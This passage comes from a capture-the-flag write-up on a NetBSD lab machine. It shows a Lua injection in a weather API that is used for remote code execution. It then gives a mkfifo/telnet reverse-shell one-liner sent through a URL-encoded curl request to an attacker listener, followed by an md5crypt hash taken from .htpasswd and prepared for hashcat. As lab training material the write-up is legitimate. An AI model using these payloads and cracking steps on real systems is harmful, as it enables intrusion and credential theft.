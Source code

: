 Which means that we have code execution. Great!
All we need to do now is to find a way to get a shell from that `RCE`.

## Foothold
First, I set up a listener on my machine.

{% highlight sh %}
nc -lvnp 2222
{% endhighlight %}

Then I've tried to invoke `netcat` and other tools on the box, but it seems like <strong>NetBSD</strong> doesn't like it. I found that interesting [blog](https://sentrywhale.covm/documentation/reverse-shell) where it gives a few commands to try on 
<strong>NetBSD</strong>.

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 172.18.0.2 8080 > /tmp/f

Let's try to send that to the remote server with `curl`. 


> curl "http://luanne/weather/forecast?city=Lond%27%20..%20os.execute(%22rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7C/bin/sh%20-i%202%3E%261%7Ctelnet%2010.10.14.11%202222%20%3E%20/tmp/f%22)%20..%20%27on"


After a few seconds, I got connection on the box !

{% highlight text %}
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
{% endhighlight %}

## User

In the `/var/www/` directory, there is a file named `.htpasswd`. Inside of it, I've found a crypted password for the `webapi_user`.

> webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0

I'm gonna use `hashcat` to crack it. 

First I look for the algorithm used to crypt the password and then I crack it with hashcat. 

{% highlight sh %}
echo -n "\$1\$vVoNCsOl\$lMtBS6GL2upDbR4Owhzyc0" > hash && wc -c hash
34 hash
{% endhighlight %}

{% highlight sh %}
hashcat --example-hashes | grep -E '^HASH:\s.{34}$' -B 3
{% endhighlight %}

{% highlight text %}
MODE: 400
TYPE: phpass
HASH: $P$946647711V1klyitUYhtB8Yw5DMA/w.
\--

MODE: 500
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
HASH: $1$38652870$DUjsu4TTlTsOe/xxZ05uf/
\--

MODE: 3800
TYPE: md5($salt.$pass.$salt)
HASH: 78274b1105fb8a7c415b43ffe35ec4a9:6
{% endhighlight %}
